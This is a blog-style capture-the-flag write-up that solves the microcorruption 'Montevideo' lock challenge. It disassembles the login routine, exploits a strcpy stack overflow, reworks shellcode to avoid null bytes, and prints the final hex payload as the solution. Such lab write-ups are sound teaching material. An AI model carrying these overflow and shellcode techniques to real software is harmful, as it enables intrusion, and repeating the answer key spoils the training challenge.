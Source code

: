 ```yaml
---
title: "microcorruption - montevideo"
date: 2018-03-08T18:12:36+02:00
categories: 
- ctf
- exploit
- assembly
- microcorruption
- montevideo
---
```


{{< figure src="/images/microcorruption/microcorruption.png" >}}

This post is part of the series of solving [microcorruption.com](https://microcorruption.com) ctf challenges which continues from the [previous challenge](https://leonjza.github.io/blog/2018/03/07/microcorruption---whitehorse/) called _Whitehorse_. This challenge is titled _Montevideo_.

The challenge has the following description when you start:

> This is Software Revision 03. We have received unconfirmed reports of issues with the previous series of locks. We have reimplemented much of the code according to our internal Secure Development Process.

Cool. So this one is going to be unbreakable right? Lets see!
<!--more-->

## montevideo

Montevideo follows a similar code pattern when compared to some of the previous challenges we have done where a simple `main` routine calls `login`. Looking at `login` itself we can see a few new things:

```asm
44f4 <login>

[.. typical getsn call to get the password ..]

; strcpy, thats new!
451a:  b012 dc45      call  #0x45dc <strcpy>
451e:  3d40 6400      mov   #0x64, r13
4522:  0e43           clr   r14
4524:  3f40 0024      mov   #0x2400, r15

; memset is also an interesting one!
4528:  b012 f045      call  #0x45f0 <memset>
452c:  0f41           mov   sp, r15

; probably checks the password again
452e:  b012 4644      call  #0x4446 <conditional_unlock_door>
4532:  0f93           tst   r15

[.. some messages printed to tell if you unlocked or not ..]

4544:  3150 1000      add   #0x10, sp
4548:  3041           ret
```

The calls to `strcpy` and `memset` immediately jumped out at me here. I also figured since there is mention of the password size again the bug here might be related to a stack overflow too. To test this, I threw in like 30 `A`'s into the password field to see if the program breaks.

{{< figure src="/images/microcorruption/montevideo_stack_overflow.png" >}}

> insn address unaligned

Nice! The program counter (`pc`) has `0x4141` which most probably comes from our longer-than-its-supposed-to-be password we supplied. With this bug in mind, I quickly had a look at the other routines to see if there is anything interesting happening there. I set up a total of four breakpoints at the following locations:

- `0x4510` at `getsn`
- `0x451a` at `strcpy`
- `0x4528` at `memset`
- `0x452e` at `conditional_unlock_door`

Inspecting these routines manually, as well as the memory layout after each function had me draw the following conclusions:

- After `getsn` is done, the password buffer lives at `0x2400` in memory.
- Once `strcpy` is done, the password buffer at `0x2400` is copied into a buffer that starts at `0x43ef`.
- After `memset` is done, the password buffer at `0x2400` is zeroed out.
- After `conditional_unlock_door` with a too long password buffer, the stack is corrupt and the return address to `main` overridden.

It seems like this challenge is pretty much exactly the same as previous Whitehorse challenge? The `conditional_unlock_door` routine calls syscall `0x7e`, so with our overflow this is not a useful location to jump to as the "HSM" will validate the password. So, like the previous one, we just need a spot to slide in some shellcode.

Before we can supply the shellcode though, we need to find out where we are overriding and corrupting the stack for that `ret` instruction. For this, I just supplied a bunch of `A`'s and `B`'s and found that at position 17 and 18 again we have control over the programs execution flow.

{{< figure src="/images/microcorruption/monte_video_ret_control.png" >}}

Next, we choose a location in memory where our password buffer is as the address we should jump to (as a result of the `ret`) which should also be the start of our shellcode. I simply copied the unlock shellcode from [Whitehorse](https://leonjza.github.io/blog/2018/03/07/microcorruption---whitehorse/) which was `30127f00b0123245`. The shellcode itself needs a little work though as the address to the `INT` routine would be different here.

To help with the shellcode modifications we need to do, we can use the assembler/dissasembler provided on microcorruption.com [here](https://microcorruption.com/assembler). Grab the opcodes that form part of our shellcode, paste them into the input box and hit disassemble. Now, with the ASM mnemonics in the input box, update the address to `call` to `0x454c` as that is where it lives in this challenge. Finally, hit assemble and be presented with your shellcode :D

{{< figure src="/images/microcorruption/montevideo_shellcode_1.png" >}}

I figured a good spot to jump to our shellcode would be just after the `ret` address at `0x4400`, so, my password payload was now going to be:

```text
# ret is 0x4400, so 0044 little endian

[padding to ret] +  [ret] +    [shellcode]
---------------------------------------------
    41 * 16      +  0044  +  30127f00b0124c45 =

# final password payload
41414141414141414141414141414141004430127f00b0124c45
```

Sending this password payload, and inspecting the program after a breakpoint at `0x4548` left the program in a confusing state.

{{< figure src="/images/microcorruption/montevideo_strcpy_nullbyte.png" >}}

It was clear that the jump to `0x4400` was taken as the program counter (`pc`) was there, but, my shellcode was missing. Well... if you have ever dealt with `strcpy` before, you may have spotted that this was going to happen as soon as I chose `0x4400` as the address to jump to, as that address contains a nullbyte which is a string terminator for `strcpy`. Easy fix really, just move along two bytes to avoid a `0x00` byte. With a two byte shift, our password payload looks something like this:

```text
[padding to ret] +  [ret] +  [pad] + [shellcode]
-----------------------------------------------------
    41 * 16      +  0244  +  4242  + 30127f00b0124c45

414141414141414141414141414141410244424230127f00b0124c45
```

{{< figure src="/images/microcorruption/montevideo_null_byte_shellcode.png" >}}

Snap. We have made a little progress, but there is still a null byte in our shellcode because of the opcodes that form part of the `push #0x7f` instruction which is `3012 7f00`. We need to get rid of the `0x00` byte. We can simply modify the shellcode to use any other instructions that will eventually push the value `0xf7` to the stack. Think of things like moving a large value into a register, performing arithmetic and then moving the resultant register value onto the stack instead of the original value as is.

I used existing instructions in the program as a reference for ideas on how I can modify the shellcode to avoid null bytes. This was the final shellcode I got to work using the disassembler [here](https://microcorruption.com/assembler):

```asm
mov     #0x117e, r9
sub     #0x10ff, r9
push    r9
call    #0x454c
```

First, I took a large 2 byte value of `0x117e` and moved that to `r9`. I then took a calculator and subtracted the desired value of `0x7f` from `0x117e` and got to `0x10ff`. That resulted in my second instruction of `sub #0x10ff, r9` which should leave the value `0x7f` in register `r9`. Finally, just push `r9` onto the stack and call `INT`.

{{< figure src="/images/microcorruption/montevideo_final_shellcode.png" >}}

So now, my final password payload looks as follows:

```python
python -c "print('41' * 16 + '0244' + '4242' + '39407e113980ff100912b0124c45')"
414141414141414141414141414141410244424239407e113980ff100912b0124c45
```

{{< figure src="/images/microcorruption/montevideo_unlock.png" >}}

Works! `r9` ends up as `0x7f`, pushed to the stack and `INT` is called to unlock the lock.

## solution

Enter `414141414141414141414141414141410244424239407e113980ff100912b0124c45` as hex encoded input.

## other challenges

For my other write ups in the microcorruption series, checkout [this](https://leonjza.github.io/categories/microcorruption/) link.
